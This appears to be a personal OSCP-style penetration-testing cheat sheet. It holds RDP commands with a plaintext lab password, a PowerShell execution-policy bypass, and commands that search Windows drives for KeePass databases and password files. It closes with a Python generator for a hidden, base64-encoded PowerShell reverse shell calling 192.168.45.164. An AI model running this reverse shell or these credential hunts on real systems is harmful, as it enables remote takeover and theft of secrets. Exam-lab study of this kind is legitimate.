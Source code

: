 ## Quick Notes

## Links

- [Payload All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/)
- [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/)
- [CyberChef](https://gchq.github.io/CyberChef/)
- [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/)
- [Markdown Reference](https://wordpress.com/support/markdown-quick-reference/)
- [Report Maker](https://github.com/noraj/OSCP-Exam-Report-Template-Markdown/tree/master)
### Random things 

### Remote Desktop Specific

```
xfreerdp /cert-ignore /compression /auto-reconnect /u:dmzadmin /p:SlimGodhoodMope /v:192.168.188.191 /w:1600 /h:800 

rdesktop -z -P -x m -u dmzadmin -p SlimGodhoodMope 192.168.188.191 -r 

```

### Powershell Bypass Policy
```
Do this to run powershell:
powershell -ExecutionPolicy Bypass -File GetCLSID.ps1
```
### Kill a Process
```

To kill a port process on windows:

netstat -ano | findstr :<PORT>
taskkill /PID <PID> /F

To kill a port process on Kali:

sudo fuser -k 81/udp
```

### Find Things
```

To find things:

locate something
find / -name exact_name>/dev/null

To search for text within files:
grep mail /etc/passwd


On Windows:

Get-ChildItem -Path C:\ -Include *.kdbx* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *proof.txt* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Include *password* -File -Recurse -ErrorAction SilentlyContinue

FINDSTR /i /r /c:"hello.*goodbye" /c:"goodbye.*hello" Demo.txt

```


### Fix Kali Copy Paste Issue
```
Kali VM Fix Copy/Paste:

1. `sudo apt-get autoremove open-vm-tools`
2. Install VMware Tools by following the usual method (`Virtual Machine --> Reinstall VMWare Tools`)
3. Reboot the VM
4. `sudo apt-get install open-vm-tools-desktop`
5. Reboot the VM, after the reboot copy/paste and drag/drop will work!



Quick Python Powershell Reverse Shell generator
---

import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.164",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)

```


### Show Tun0 IP Toolbar

```
Generic Monitor -> Properties

/opt/showtun0ip.sh

---
ADDR=$(ip addr | grep tun0|grep inet|awk '{print $2}'|cut -d "/" -f 1)
echo "$ADDR" | sed 's/$/ /g'


```